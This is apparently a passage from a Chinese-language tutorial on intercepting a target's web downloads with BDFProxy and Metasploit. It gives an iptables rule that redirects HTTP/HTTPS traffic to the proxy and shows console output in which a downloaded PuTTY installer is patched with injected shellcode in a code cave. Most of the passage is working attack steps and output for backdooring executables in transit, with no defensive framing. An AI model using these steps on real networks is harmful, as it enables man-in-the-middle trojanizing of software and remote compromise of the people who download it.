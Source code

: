 ```
```

配置完毕之后，把Metasploit的服务打开，我们接下来要开启工具了：

```
iptables -A PREROUTING -t nat -i eth0 -p tcp -m multiport --dports 80,443 -j REDIRECT --to-port 8080

```

以上是第一步：将HTTP/HTTPS流量转发至bdfproxy

```
root@Alkaid-PC:~# bdfproxy 
[!] Writing resource script.
[!] Resource writen to bdfproxy_msf_resource.rc
[!] Starting BDFProxy
[!] Author: @midnite_runr | the[.]midnite).(runr<at>gmail|.|com
********** REQUEST **********
[*] HOST:  203.208.48.142
[*] PATH:  /__utm.gif?utmwv=5.6.5&utms=22&utmn=842124717&utmhn=www.slideshare.net&utmt=event&utme=5(Newsfeed*Featured_time_on_page*440)8(member_type)9(FREE)11(1)&utmcs=UTF-8&utmsr=1920x1080&utmvp=1903x971&utmsc=24-bit&utmul=zh-cn&utmje=1&utmfl=18.0%20r0&utmdt=lxj616%E2%80%99s%20Newsfeed&utmhid=1466934019&utmr=http%3A%2F%2Fmail.qq.com%2Fcgi-bin%2Freadtemplate%3Ft%3Dsafety%26check%3Dfalse%26gourl%3Dhttp%253A%252F%252Fwww.slideshare.net%252Fconfirm%252FODEwNDQ5Njg7MDA2Zjg0OWMzNjZiZmRmYTc0YWIwYzQyNzcyZGIzMjhjZTA2YmI5MA%253D%253D%253Futm_source%253Dconfirmemail%2526utm_medium%253Dssemail%2526utm_campaign%253Dconfirm_email%26subtemplate%3Dgray%26evil%3D0&utmp=%2Flxj616%2Fnewsfeed%3Fredirect%3D1&utmht=1439103172080&utmac=UA-2330466-1&utmni=1&utmcc=__utma%3D186399478.1272612003.1439088302.1439089490.1439090092.3%3B%2B__utmz%3D186399478.1439089490.2.2.utmcsr%3Dgoogle%7Cutmccn%3D(organic)%7Cutmcmd%3Dorganic%7Cutmctr%3D(not%2520provided)%3B&utmjid=&utmu=6RCAACAAAAAAAAAAAAAAAAAE~
********** END REQUEST **********

```

以上是第二步：开启bdfproxy，如果您配置正确，在目标设备访问网页时可以看到bdfproxy中截获的REQUEST如上所示

```
********** REQUEST **********
[*] HOST:  221.204.160.47
[*] PATH:  /sw-search-sp/soft/78/15699/putty_V0.63.0.0.43510830.exe
********** END REQUEST **********
========== RESPONSE ==========
[*] HOST:  221.204.160.47
[*] PATH:  /sw-search-sp/soft/78/15699/putty_V0.63.0.0.43510830.exe
[*] In the backdoor module
[*] Checking if binary is supported
[*] Gathering file info
[*] Reading win32 entry instructions
[*] Looking for and setting selected shellcode
[*] Creating win32 resume execution stub
[*] Looking for caves that will fit the minimum shellcode length of 638
[*] All caves lengths:  (638,)
############################################################
The following caves can be used to inject code and possibly
continue execution.
**Don't like what you see? Use jump, single, append, or ignore.**
############################################################
[*] Cave 1 length as int: 638
[*] Available caves: 
1. Section Name: None; Section Begin: None End: None; Cave begin: 0x294 End: 0xffc; Cave Size: 3432
2. Section Name: .rdata; Section Begin: 0x57000 End: 0x73000; Cave begin: 0x7262c End: 0x73000; Cave Size: 2516
3. Section Name: None; Section Begin: None End: None; Cave begin: 0x743d0 End: 0x7500a; Cave Size: 3130
**************************************************
[!] Enter your selection: 2
[!] Using selection: 2
```